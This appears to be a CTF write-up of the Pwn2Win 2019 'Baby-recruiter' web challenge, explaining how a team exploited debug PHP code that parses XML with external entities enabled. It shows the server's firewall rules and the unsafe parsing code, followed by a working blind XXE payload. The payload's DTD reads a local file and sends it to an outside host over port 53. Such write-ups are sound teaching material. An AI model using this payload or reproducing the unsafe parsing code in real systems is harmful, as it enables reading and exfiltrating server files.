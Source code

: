# Pwn2Win2019_Baby-recruiter Write-up
Web challenge solved during Pwn2Win 2019 CTF (by Ganesh - USP)

## Challenge description
```
We found a Curriculum service from HARPA. Well, what do you think about pwn it? :)

P.S.: the flag is not in default format, so add CTF-BR{} when you find it (leet speak).

```

## Write-up
Firstly, the challenge gave us three files: Dockerfile, index.php e iptables.sh (there was also a setup.sh but it wasn't useful).
By looking at the Dockerfile we noticed that:
1. It installed a version of prince that might have a vulnerability, such as [this one](https://www.corben.io/XSS-to-XXE-in-Prince/), but we were wrong. It didn't;
2. The location of the flag (/etc/flag);
3. The setup/configuration of iptables.

``` sh
# there was some other stuff here, but we don't need it now
RUN wget https://www.princexml.com/download/prince_12.5-1_ubuntu18.04_amd64.deb

RUN echo -n 'this_is_not_the_flag' > /etc/flag

RUN chmod +x iptables.sh && ./iptables.sh
```
Also, after analizing the iptables.sh file, we noticed that it was only possible to establish new connections through port 53 (used for DNS) and port 80. However, in port 80 the server only responded to already established connections.
``` sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$IPT -A OUTPUT -p udp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p udp --sport 53 -m state --state ESTABLISHED     -j ACCEPT
$IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p tcp --sport 53 -m state --state ESTABLISHED     -j ACCEPT

echo "Allowing new and established incoming connections to port 80"
$IPT -A INPUT  -p tcp -m multiport --dports 80 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A OUTPUT -p tcp -m multiport --sports 80 -m state --state ESTABLISHED     -j ACCEPT

```

After trying some stuff, we noticed that in the index.php file, there was uncommented code used for debug :
``` php
/* debug */
$dom = new DOMDocument();
$dom->loadXML($content, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
```
So, we thought that we could try a **Blind XXE Injection**! The *$content* came from a *textarea* in the index.php page, so we just had to write our payload there and send it to the server. However, the server would only respond to reqs at port 53! Thus, we had to disable the DNS resolver in our machine - at port 53 - with `sudo systemctl stop systemd-resolved` and run a local server there.
Finaly, we send the payload:
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://143.107.3.131:53/host.dtd">
<data>&send;</data>
```

And the server asked us for this .dtd file:
``` xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://143.107.3.131:53/collect/%file;'>">
%eval;
``` 

And this gave us the **flag**!


*Another way of solving it is available at [SigFlag Blog](https://www.sigflag.at/blog/2019/writeup-pwn2win-baby-recruiter/
)*
